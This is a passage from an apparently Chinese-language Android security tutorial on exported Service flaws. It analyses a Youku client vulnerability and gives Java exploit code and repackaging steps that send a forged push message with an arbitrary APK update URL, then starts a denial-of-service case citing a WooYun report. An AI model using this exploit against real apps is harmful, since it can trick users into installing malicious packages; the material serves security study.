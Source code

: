 漏洞分析：

```
我们可以发现从Intent从获取名为PushMsg的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。升级的具体流程在com.youku.ui.activity.UpdateActivity中，简单分析后发现升级过程未对下载地址等进行判断，因此可以任意指定该地址。

```

漏洞攻击：

```
1.创建一个Android App程序，在主Activity中的关键代码如下：
 
 
PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://gdown.baidu.com/data/wisegame/41839d1d510870f4/jiecaojingxuan_51.apk";
pushMsg.updatecontent = "This is Fake";
 
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);
 
其中PushMsg类不需要完整实现，只需要编译通过即可；
2.反编译优酷客户端的App得到smali代码，从中提取出PushMsg.smali；
3.反编译上述创建的APK文件，将原PushMsg类的smali文件替换为优酷中的PushMsg.smali文件，重新打包签名；
4.安装并运行重打包后的APK，会看到优酷的升级页面触发，如果设计的好的话，是可以诱导用户安装攻击者指定的APK文件的。

```

### 4. 拒绝服务攻击

#### [](#（1）原理介绍)（1）原理介绍

```
Service的拒绝服务主要来源于Service启动时对接收的Intent等没有做异常情况下的处理，导致程序崩溃。主要体现在给Service传输的intent或者传输序列化对象导致接收时候的类型传化异常。

```

Service 拒绝服务攻击和 Activity 拒绝服务攻击的原理一样，可以参考我们上篇帖子

#### [](#（2）漏洞复现)（2）漏洞复现

案例：[**雪球最新 Android 客户端存在空指针异常及信息泄露漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-048028)

 

漏洞描述：

```
雪球客户端版本：4.1
adb shell 下执行下面命令，虚拟机将崩溃。愿意在于空指针调用

```
